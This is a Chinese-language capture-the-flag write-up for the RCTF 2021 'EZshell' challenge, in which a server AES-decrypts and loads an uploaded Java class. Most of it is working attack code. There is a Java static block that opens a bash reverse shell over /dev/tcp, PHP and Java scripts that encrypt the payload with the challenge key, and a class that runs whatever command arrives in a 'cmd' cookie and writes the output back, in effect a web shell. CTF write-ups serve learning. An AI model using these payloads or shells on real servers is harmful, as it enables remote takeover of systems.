


## EZshell

有一说一，这个题目应该是web.....

题目给了一个war包，非常明显是通过tomcat搭建。

为了方便我转换成了springboot项目。项目：https://github.com/Firebasky/ctf-Challenge/tree/main/RCTF-2021-EZshell



其实非常简单。。。

就我们写一个恶意类，然后继续aes加密然后在base64加密之后让服务端继续解密然后加载执行就欧克。。

最开始自己是写的静态代码，因为静态代码实例化的时候要执行，然后就可以执行命令。

```java
try{
    Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"});
}catch (IOException e){
    try{
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }catch (IOException ee){
    }
}
```

然后在aes加密，这里是中中给的脚本，而且只能在mac上生成有效果？？？

```php
<?php
// 要加密的字符串
$data = file_get_contents("Payload.class");#读我们字节码文件
// 密钥
$key = 'e45e329feb5d925b';
// 加密数据 'AES-128-ECB' 可以通过openssl_get_cipher_methods()获取
$encrypt = openssl_encrypt($data, 'AES-128-ECB', $key, 0);
echo base64_encode(($encrypt));
```

下一个问题就是题目不出网，没有交互信息，都是应该说能够返回信息，所以我们只需要将我们的命令执行的结果返回就欧克。

尝试了好久之后发现不是反射执行了e方法吗？里面就2给参数，request和response

我们就可以通过response返回信息了呀

所以我们重写一个e方法参数是request和response。

```java
import javax.servlet.http.Cookie;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;

public class cmd {
    public void e(Object request,Object response)throws Exception {
        HttpServletResponse httpServletResponse = (HttpServletResponse) response;
        HttpServletRequest httpServletRequest = (HttpServletRequest) request;
        Cookie[] cookies = httpServletRequest.getCookies();
        String cmd = null;
        if (cookies != null && cookies.length > 0) {
            for (Cookie cookie : cookies) {
                if ("cmd".equals(cookie.getName()))
                    cmd = cookie.getValue();
            }
        }
        try{
            Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",cmd});
            InputStream is = p.getInputStream();
            BufferedReader reader = new BufferedReader(new InputStreamReader(is));
            String line;
            while ((line = reader.readLine()) != null) {
                //String encode = new BASE64Encoder().encode(line.getBytes("UTF-8"));
                //System.out.println(encode);
                httpServletResponse.getWriter().write(line);
            }
        }catch (IOException e){
            try{
                Process p = Runtime.getRuntime().exec(new String[]{"cmd", "/c", cmd});
                InputStream is = p.getInputStream();
                BufferedReader reader = new BufferedReader(new InputStreamReader(is));
                String line;
                while ((line = reader.readLine()) != null) {
                    //String encode = new BASE64Encoder().encode(line.getBytes("UTF-8"));
                    //System.out.println(encode);
                    httpServletResponse.getWriter().write(line);
                }
            }catch (IOException ee){
            }
        }
    }
}

```

通过Cookie: cmd=whoami执行命令。。



总体上来说还是有意思。。。

下面是直接搭建的环境。并且通过java实现aes加密

```java
package com.firebasky.ezshell.exp;

import javax.crypto.Cipher;
import javax.crypto.SecretKey;
import javax.crypto.spec.SecretKeySpec;
import java.io.File;
import java.io.FileInputStream;
import java.util.Arrays;
import java.util.Base64;

public class AES {
    public static void main(String[] args) throws Exception {
        byte[] string = readFile("路径\\cmd.class");
        String k = "ZTQ1ZTMyOWZlYjVkOTI1Yg==";//key 密钥e45e329feb5d925b
        String encrypt = encrypt(k, string);
        System.out.println(encrypt);
    }
    public static byte[] readFile(String path) throws Exception {
        File file = new File(path);
        FileInputStream inputFile = new FileInputStream(file);
        byte[] buffer = new byte[(int)file.length()];
        inputFile.read(buffer);
        inputFile.close();
        return buffer;
    }
    public static String encrypt(final String secret, final byte[] data) {
        byte[] decodedKey = Base64.getDecoder().decode(secret);
        try {
            Cipher cipher = Cipher.getInstance("AES");
            // rebuild key using SecretKeySpec
            SecretKey originalKey = new SecretKeySpec(Arrays.copyOf(decodedKey, 16), "AES");
            cipher.init(Cipher.ENCRYPT_MODE, originalKey);
            byte[] cipherText = cipher.doFinal(data);
            return Base64.getEncoder().encodeToString(cipherText);
        } catch (Exception e) {
            throw new RuntimeException(
                    "Error occured while encrypting data", e);
        }
    }
    public static String decrypt(final String secret, final String encryptedString) {
        byte[] decodedKey = Base64.getDecoder().decode(secret);
        try {
            Cipher cipher = Cipher.getInstance("AES");
            // rebuild key using SecretKeySpec
            SecretKey originalKey = new SecretKeySpec(Arrays.copyOf(decodedKey, 16), "AES");
            cipher.init(Cipher.DECRYPT_MODE, originalKey);
            byte[] cipherText = cipher.doFinal(Base64.getDecoder().decode(encryptedString));
            return new String(cipherText);
        } catch (Exception e) {
            throw new RuntimeException(
                    "Error occured while decrypting data", e);
        }
    }
}
```


